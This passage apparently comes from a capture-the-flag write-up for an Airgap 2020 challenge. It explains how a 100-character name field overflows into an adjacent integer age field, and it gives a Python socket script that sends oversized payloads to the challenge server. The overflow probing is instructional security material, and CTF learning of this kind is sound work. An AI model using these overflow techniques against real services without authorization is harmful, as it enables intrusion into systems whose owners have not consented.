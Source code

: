 <img class="center" src="/ta/img/airgap-2020/scanzone_2.png" />

That looks better. We've got a weird extra new line there when it prints our name back to us, which is a bit weird. What happens if we change our age?

<img class="center" src="/ta/img/airgap-2020/scanzone_3.png" />

Interesting, now we've got an asterisk. Wait, isn't the ASCII character for `42` an asterisk? Let's add another character to our name, bringing us up to 101 characters.

<img class="center" src="/ta/img/airgap-2020/scanzone_4.png" />

Wait, I didn't put my age as `65`. You know what is `65` though? The ASCII code for capital `A`. That's right, we've got a buffer overflow from the name variable (100 characters) into the age variable. In our collective head, we might imagine the server application looking like this...

```cpp
char name[100];
int age;
// .. other variables .. 
```

In memory, this looks like...

```
+---------------+-------+-------------+
|  NAME [100]   |  AGE  |  Other vars |
+---------------+-------+-------------+
```

Note how they're stored back to back. So if name can only hold 100 characters, and we give it 101, we end up in the age field. Let's guess that the age is an integer, which means we should be able to give 104 characters to completely override both the name and age variables. To confirm age is an integer (4 bytes) we can check that there should be no difference in age for 104 and 105 characters. Let's write a python script to help with that.

```python
import socket

def query(payload, age):
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  sock.connect(('ctf.airgapp.in', 3456))

  print("<- " + sock.recv(1024).rstrip()) # rstrip to remove newline
  print("-> " + payload)
  sock.send(payload + b'\n')
  print("<- " + sock.recv(1024).rstrip())
  sock.send(age + b'\n')
  print("-> " + age)
  print("<- " + sock.recv(1024).rstrip())
  print("<- " + sock.recv(1024).rstrip())

print("=== 104 ===")
query('A'*104, '12')
print("")
print("=== 105 ===")
query('A'*105, '12')
```
